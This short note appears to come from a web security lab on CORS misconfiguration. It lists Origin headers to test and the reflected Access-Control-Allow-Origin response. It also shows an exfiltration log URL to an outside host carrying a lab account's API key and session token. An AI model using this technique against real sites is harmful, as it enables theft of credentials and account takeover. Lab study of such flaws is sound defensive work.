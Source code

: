 <h1>CORS Misconfiguration</h1>
<h3>Impact:</h3>
<p>Api token, email, password, and other types of sensitive data exposure, could lead in account takeover.</p>
<h4>Headers to test:</h4>
<code>Origin: https://example.com</code>
o
<code>Origin: http://example.com</code>

<p>Response:</p>
<code>Access-Control-Allow-Origin: https://example.com</code>

Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net
Access-Control-Allow-Origin: https://store.ac8b1f971f3a924fc04d162000e40010.web-security-academy.net

<p>CORS vulnerability with trusted null origin</p>
<p>-Go to console.log, and you must see:</p>
<p>https://angeljuanma.github.io/log?key={ "username": "wiener", "email": "", "apikey": "ILmCsS4WvD12NbFLxkHaUt7PnL3cFDzU", "sessions": [ "mWXTjX7lmBUZlRJ9TPWqfN7FxBggUFKg" ] }</p>

<p>This will store the accout detail.</p>
